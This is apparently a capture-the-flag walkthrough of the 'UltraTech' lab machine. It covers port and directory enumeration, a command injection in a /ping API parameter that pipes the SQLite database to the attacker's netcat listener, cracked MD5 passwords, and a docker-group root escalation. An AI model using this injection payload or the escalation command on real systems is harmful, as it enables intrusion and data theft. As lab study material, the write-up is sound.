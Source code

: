 # UltraTech

--------------------------------------------------------------------

## GIVEN INFO

**IP Address**: 10.10.248.157

--------------------------------------------------------------------

## PROCEDURE

-sV: probe open ports to determine service/version info
-p-: scan all ports
```
nmap -sV -p- 10.10.248.157
```

**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.3)<br>
    22 (ssh OpenSSH 7.6p1),<br>
    8081 (http node.js Express Framework),<br>
    31331 (http Apache httpd 2.4.29)

8081 is an api

Enumerate hidden directories on webserver on port 8081
```
dirb http://10.10.248.157:8081 /usr/share/wordlists/dirb/common.txt
```

Found /auth & /ping which are the routes

Enumerate hidden directories on webserver on port 31331
```
dirb http://10.10.248.157:31331 /usr/share/wordlists/dirb/common.txt
```

Found robots.txt, /images, /css, /javascript, /js

/utech_sitemap.txt in robots.txt

Found /, /index.html, /what.html, /partners.html

http://10.10.248.157:31331/partners.html is a login page

The http://10.10.248.157:31331/js/api.js file is run when user tries to login<br>
It runs the /ping?ip=${window.location.hostname}

We can exploit the ping command to get the database
```
nc -lnvp 4444
http://10.10.248.157:8081/ping?ip=`nc 10.6.1.136 4444 < utech.db.sqlite`
```

Found 2 login<br>
**USERS**: admin, r00t<br>
**PASSWORD HASHES**: 0d0ea5111e3c1def594c1684e3b9be84, f357a0c52799563c7c7b76c1e7543a32 

Cracked MD5 hash on https://hashes.com/en/decrypt/hash<br>
**admin USER PASSWORD**: mrsheafy<br>
**r00t USER PASSWORD**: n100906

```
ssh r00t@10.10.248.157
chmod +x linpeas
./linpeas
```

r00t is a part of the docker group which we can exploit

Found on https://gtfobins.github.io/gtfobins/docker/
```
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

**FIRST 9 OF SSH KEY**: MIIEogIBA